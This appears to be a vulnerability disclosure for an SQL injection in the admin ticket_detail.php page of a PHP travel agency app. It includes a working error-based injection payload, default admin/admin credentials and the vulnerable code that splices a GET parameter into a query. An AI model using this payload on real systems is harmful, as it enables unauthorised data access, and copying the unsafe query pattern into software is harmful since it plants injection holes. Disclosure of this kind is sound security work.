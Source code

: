 # [Online Travel Agency System-SQL Injection-ticket_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/ticket_detail.php?ticket_id=15`    

**[Vulnerability Location]:** Travel/admin/ticket_detail.php

**[Vulnerability Test]:**

1. payload:`ticket_id=15%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428164836.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/ticket_detail.php

```php
<?php 
  $sql="select*from ticket where ticket_id='$_GET[ticket_id]'";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  while($row=mysqli_fetch_array($result))
  { //	  	 	 	 	 	 	 	 	 	 		 	 	 	 	
	  $ticket_id=$row["ticket_id"];
	  $ticket_no=$row["ticket_no"];
	  $costomer_id=$row["costomer_id"];
	  $date=$row["date"];
	  $sector_from=$row["sector_from"];
	  $sector_to=$row["sector_to"];
	  $airline_name=$row["airline_name"];
	  $airline_no=$row["airline_no"];
	  $date_of_insertion=$row["date_of_insertion"];
	  $inserted_by=$row["inserted_by"];// 
  }
  ?>
```

The GET parameter `ticket_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

